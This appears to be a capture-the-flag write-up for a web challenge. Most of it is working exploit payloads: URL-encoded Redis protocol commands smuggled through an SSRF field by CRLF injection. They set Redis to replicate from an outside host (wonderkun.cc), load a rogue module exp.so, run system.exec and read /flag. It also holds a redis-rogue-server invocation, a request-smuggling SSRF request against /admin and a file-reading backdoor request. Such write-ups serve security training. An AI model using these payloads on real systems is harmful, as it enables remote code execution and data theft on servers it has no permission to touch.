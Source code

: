 

python3.6 redis-rogue-server.py  --rhost 127.0.0.1 --rport 6379 --lhost  vps

<!-- socat -v tcp-listen:7777,fork tcp-connect:127.0.0.1:6379 -->

<!-- {"notes":[{"Type":"urlnote","Data":{"title":"172.18.2:6379","url":"123435"}}]} -->


type Adminnote struct {
	Version string  // cat /etc/issue 
	Who string  // who login system
	Memory string //   cat /proc/meminfo
}

### payload记录


#### auth 

*2\r
$4\r
auth\r
$13\r
redis123456aB\r

*2%0d%0a$4%0d%0aauth%0d%0a$13%0d%0aredis123456aB%0d%0a

#### CONFIG SET dbfilename exp.so


*4\r
$6\r
CONFIG\r
$3\r
SET\r
$10\r
dbfilename\r
$6\r
exp.so\r


*4%0d%0a$6%0d%0aCONFIG%0d%0a$3%0d%0aSET%0d%0a$10%0d%0adbfilename%0d%0a$6%0d%0aexp.so%0d%0a

#### slaveof wonderkun.cc 21000

*3\r
$7\r
SLAVEOF\r
$12\r
wonderkun.cc\r
$5\r
21000\r

*3%0d%0a$7%0d%0aSLAVEOF%0d%0a$12%0d%0awonderkun.cc%0d%0a$5%0d%0a21000%0d%0a

#### MODULE LOAD ./exp.so


*3\r
$6\r
MODULE\r
$4\r
LOAD\r
$8\r
./exp.so\r

*3%0d%0a$6%0d%0aMODULE%0d%0a$4%0d%0aLOAD%0d%0a$8%0d%0a./exp.so%0d%0a

#### SLAVEOF NO ONE

*3\r
$7\r
SLAVEOF\r
$2\r
NO\r
$3\r
ONE\r


*3%0d%0a$7%0d%0aSLAVEOF%0d%0a$2%0d%0aNO%0d%0a$3%0d%0aONE%0d%0a

#### system.exec "ls"

*2\r
$11\r
system.exec\r
$2\r
ls\r

*2%0d%0a$11%0d%0asystem.exec%0d%0a$2%0d%0als%0d%0a

### 第一步: 

添加urlnote, 设置slave模式

title=172.18.2:6379&url=http://172.25.0.3:6379/?a=1%0d%0a

*2%0d%0a$4%0d%0aauth%0d%0a$13%0d%0aredis123456aB%0d%0a
*4%0d%0a$6%0d%0aCONFIG%0d%0a$3%0d%0aSET%0d%0a$10%0d%0adbfilename%0d%0a$6%0d%0aexp.so%0d%0a
*3%0d%0a$7%0d%0aSLAVEOF%0d%0a$12%0d%0awonderkun.cc%0d%0a$5%0d%0a21000%0d%0a


### 第二步: 

添加urlnote，实现延时 

title=172.18.2:6379&url=http://127.0.0.100:6379/?a=test

可以插入多条，保证slave 模式可以更新

### 第三步

添加urlnote，实现加载模块,同时删除自己的slave 模式。

title=172.18.2:6379&url=http://172.25.0.3:6379/?a=1%0d%0a

*2%0d%0a$4%0d%0aauth%0d%0a$13%0d%0aredis123456aB%0d%0a

*3%0d%0a$6%0d%0aMODULE%0d%0a$4%0d%0aLOAD%0d%0a$8%0d%0a./exp.so%0d%0a
*3%0d%0a$6%0d%0aMODULE%0d%0a$4%0d%0aLOAD%0d%0a$8%0d%0a./exp.so%0d%0a
*3%0d%0a$6%0d%0aMODULE%0d%0a$4%0d%0aLOAD%0d%0a$8%0d%0a./exp.so%0d%0a
*3%0d%0a$6%0d%0aMODULE%0d%0a$4%0d%0aLOAD%0d%0a$8%0d%0a./exp.so%0d%0a
*3%0d%0a$6%0d%0aMODULE%0d%0a$4%0d%0aLOAD%0d%0a$8%0d%0a./exp.so%0d%0a
*3%0d%0a$6%0d%0aMODULE%0d%0a$4%0d%0aLOAD%0d%0a$8%0d%0a./exp.so%0d%0a
*3%0d%0a$6%0d%0aMODULE%0d%0a$4%0d%0aLOAD%0d%0a$8%0d%0a./exp.so%0d%0a
*3%0d%0a$6%0d%0aMODULE%0d%0a$4%0d%0aLOAD%0d%0a$8%0d%0a./exp.so%0d%0a
*3%0d%0a$6%0d%0aMODULE%0d%0a$4%0d%0aLOAD%0d%0a$8%0d%0a./exp.so%0d%0a

*3%0d%0a$7%0d%0aSLAVEOF%0d%0a$2%0d%0aNO%0d%0a$3%0d%0aONE%0d%0a
*2%0d%0a$11%0d%0asystem.exec%0d%0a$2%0d%0als%0d%0a


### 第四步

set key '{"notes":[{"Type":"adminnote","Data":{"version":"172.18.2:6379","who":"wonderkun","memory":"cat /flag"}}]}'

读取flag。


#### bug1 

ssrf 

```
POST /urlnote HTTP/1.1
Host: 192.168.15.166
Content-Length: 241
Pragma: no-cache
Cache-Control: no-cache
Origin: http://192.168.15.166
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.15.166/
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,ja;q=0.7,pl;q=0.6,zh-TW;q=0.5,pt;q=0.4,de;q=0.3
Connection: close

title=test&url=http://127.0.0.1:81/test2?a=1%20HTTP/1.1%0d%0aHost:%20127.0.0.1:81%0d%0aConnection:%20keep-alive%0d%0aContent-Length:%200%0d%0a%0d%0aPOST%20/admin%20HTTP/1.1%0d%0aHost:%20127.0.0.1:81%0d%0aIdentify-Client:%20123456%0d%0a%0d%0a
```

flag in file assets/e10adc3949ba59abbe56e057f20f883e ，read /static/e10adc3949ba59abbe56e057f20f883e from http requests。

#### backdoor 

```
GET /info?file=/flag HTTP/1.1
Host: 192.168.15.166
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; wdeYKQtOhc6L8TsIm1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,ja;q=0.7,pl;q=0.6,zh-TW;q=0.5,pt;q=0.4,de;q=0.3
Connection: close


```


